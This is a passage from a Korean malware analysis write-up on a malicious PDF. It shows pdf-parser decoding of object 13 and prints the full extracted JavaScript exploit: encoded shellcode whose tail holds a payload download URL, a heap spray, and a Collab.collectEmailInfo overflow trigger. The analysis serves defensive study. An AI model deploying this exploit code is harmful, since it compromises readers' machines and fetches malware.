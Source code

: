 해당 PDF 악성코드는 위와 같은 순서로 참조하여 스크립트를 실행함. 제일 먼저 PDF 문서를 열면 obj 1에서부터 시작해서 obj 13까지 참조하여 스크립트를 실행함.

### 4. 자바스크립트 분석

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/59d6f735-1727-445c-9438-7a638194251a)

`$ pdf-parser.py --object 13 --raw --filter badpdf.pdf`

obj 13을 보면 obj 1에서 확인했던 zfnvkWYOKv() 함수의 실제 스트림이 포함되어 있으며 FlateDecode 방식으로 인코딩되어 있음을 확인할 수 있음. pdf-parser에서 --filter 옵션을 사용하면 FlatDecode, ASCIIHexDecode, ASCII85Decode, LZWDecode, RunLengthDecode까지 디코딩이 가능함. 따라서 --raw --filter 옵션을 붙여주어 obj 13에 포함된 zfnvkWYOKv() 함수를 확인할 수 있음.

```javascript
function zfnvkWYOKv()
{
        gwKPaJSHReD0hTAD51qao1s = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036");

        tuVglXABgYUAQFEYVPi3lf = unescape("%u9090%u9090"); nDsGdY1TdZUDCCpNeYRdk28BeZ5R = 20 + gwKPaJSHReD0hTAD51qao1s.length
        while (tuVglXABgYUAQFEYVPi3lf.length < nDsGdY1TdZUDCCpNeYRdk28BeZ5R) tuVglXABgYUAQFEYVPi3lf += tuVglXABgYUAQFEYVPi3lf;
        vmRV3x9BCtZs = tuVglXABgYUAQFEYVPi3lf.substring(0, nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
        dVghsR4KOJoE6WzWkTW0vz = tuVglXABgYUAQFEYVPi3lf.substring(0, tuVglXABgYUAQFEYVPi3lf.length-nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
        while(dVghsR4KOJoE6WzWkTW0vz.length + nDsGdY1TdZUDCCpNeYRdk28BeZ5R < 0x40000) dVghsR4KOJoE6WzWkTW0vz = dVghsR4KOJoE6WzWkTW0vz + dVghsR4KOJoE6WzWkTW0vz + vmRV3x9BCtZs;

        dddA9SvmIp7bFVTvbRcRoFQ = new Array();

        for ( i = 0; i < 2020; i++ ) dddA9SvmIp7bFVTvbRcRoFQ[i] = dVghsR4KOJoE6WzWkTW0vz + gwKPaJSHReD0hTAD51qao1s;

        function rHjX2qS2YpWWuvNjX9JfKZ3F(qlrSKFKRQUuUXlV0ES9I6oz4pM, oq7g9J0RSV3FcMgr9DLvvDY8ee)
        {
                var lTZGviUaML2vE40mHbYk = "";

                while (--qlrSKFKRQUuUXlV0ES9I6oz4pM >= 0) lTZGviUaML2vE40mHbYk += oq7g9J0RSV3FcMgr9DLvvDY8ee;
                return lTZGviUaML2vE40mHbYk;
        }

        Collab.collectEmailInfo({msg:rHjX2qS2YpWWuvNjX9JfKZ3F(4096, unescape("%u0909%u0909"))});
}
```
